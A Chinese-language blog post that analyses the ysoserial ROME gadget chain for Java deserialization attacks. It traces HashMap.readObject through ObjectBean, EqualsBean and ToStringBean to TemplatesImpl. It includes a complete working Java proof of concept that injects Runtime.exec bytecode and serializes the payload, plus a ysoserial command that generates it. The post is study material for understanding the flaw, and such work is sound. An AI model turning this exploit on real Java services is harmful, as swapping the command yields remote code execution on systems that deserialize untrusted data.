










前置
ObjectBean
com.sun.syndication.feed.impl.ObjectBean是Rome提供的一个封装类型, 初始化时提供了一个Class类型和一个Object对象实例进行封装
他也有三个成员变量，分别是EqualsBean、 ToStringBean、CloneableBean类，为ObjectBean提供了equals、toString、clone以及hashCode方法
在ObjectBean#hashCode中，调用了EqualsBean类的beanHashCode方法

这里调用了_obj成员变量的toString方法，这里就是漏洞触发的地方了
ToStringBean
com.sun.syndication.feed.impl.ToStringBean是给对象提供toString方法的类, 类中有两个toString方法, 第一个是无参的方法, 获取调用链中上一个类或_obj属性中保存对象的类名, 并调用第二个toString方法. 在第二个toString方法中, 会调用BeanIntrospector#getPropertyDescriptors来获取_beanClass的所有getter和setter方法, 接着判断参数的长度, 长度等于0的方法会使用_obj实例进行反射调用, 通过这个点我们可以来触发TemplatesImpl的利用链.

编写POC
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.CannotCompileException;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
public class Rome_POC {
//序列化操作工具
public static String serialize(Object obj) throws IOException {
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objOutput = new ObjectOutputStream(barr);
objOutput.writeObject(obj);
byte[] bytes = barr.toByteArray();
objOutput.close();
String bytesOfBase = Base64.getEncoder().encodeToString(bytes);
return bytesOfBase;
}
//反序列化操作工具
public static void unserialize(String bytesOfBase) throws IOException, ClassNotFoundException {
byte[] bytes = Base64.getDecoder().decode(bytesOfBase);
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
ObjectInputStream objInput = new ObjectInputStream(byteArrayInputStream);
objInput.readObject();
}
//为类的属性设置值的工具
public static void setFieldVlue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
//payload的生成
public static void exp() throws CannotCompileException, NotFoundException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
//生成恶意的bytecodes
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
ClassPool classPool = ClassPool.getDefault();
CtClass ctClass = classPool.makeClass("evilexp");
ctClass.makeClassInitializer().insertBefore(cmd);
ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
byte[] bytes = ctClass.toBytecode();
//因为在TemplatesImp类中的构造函数中，_bytecodes为二维数组
byte[][] bytes1 = new byte[][]{bytes};
//创建TemplatesImpl类
TemplatesImpl templates = new TemplatesImpl();
setFieldVlue(templates, "_name", "RoboTerh");
setFieldVlue(templates, "_bytecodes", bytes1);
setFieldVlue(templates, "_tfactory", new TransformerFactoryImpl());
//封装一个无害的类并放入Map中
ObjectBean roboTerh = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "RoboTerh"));
HashMap hashmap = new HashMap();
hashmap.put(roboTerh, "RoboTerh");
//通过反射写入恶意类进入map中
ObjectBean objectBean = new ObjectBean(Templates.class, templates);
setFieldVlue(roboTerh, "_equalsBean", new EqualsBean(ObjectBean.class, objectBean));
//生成payload并输出
String payload = serialize(hashmap);
System.out.println(payload);
//触发payload，验证是否成功
unserialize(payload);
}
public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
exp();
}
}分析调用链
在unserialize方法中打上断点
在unserialize方法中的readObject方法中开始反序列化

跟进到了HashMap#readObject

之后就会求key值的hash，而且这个时候的Key是ObjectBean类

之后在HashMap#hash中，会调用key值得hashcode()方法

直接跳转进入ObjectBean#hashCode，调用了他的属性_equalsBean的beanHashCode方法

跟进EqualsBean#beanHashCode方法，这里的_obj是ObjectBean类的对象，调用了他的toString方法

跟进ObjectBean#toString方法，这里的_toStringBean属性，是ToStringBean类的对象，调用了他的toString方法

之后跟进ToStringBean#toString，这里获取了所有的getter和setter，然后判断参数长度调用了一些方法，当然包括了getOutputProperties这个方法

后面的步骤就是TemplatesImpl这个调用链了
getOutputProperties
newTransformer
getTransletInstance
defineTransletClasses所以他的调用链为：
HashMap.readObject()
ObjectBean.hashCode()
EqualsBean.beanHashCode()
ObjectBean.toString()
ToStringBean.toString()
TemplatesImpl.getOutputProperties()生成POC
使用ysoserial工具生成POC
java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ROME 'calc'|base64参考
Java 反序列化漏洞（五） - ROME/BeanShell/C3P0/Clojure/Click/Vaadin | 素十八 (su18.org)


- Post link: https://roboterh.github.io/2022/04/05/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BROME%E9%93%BE/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.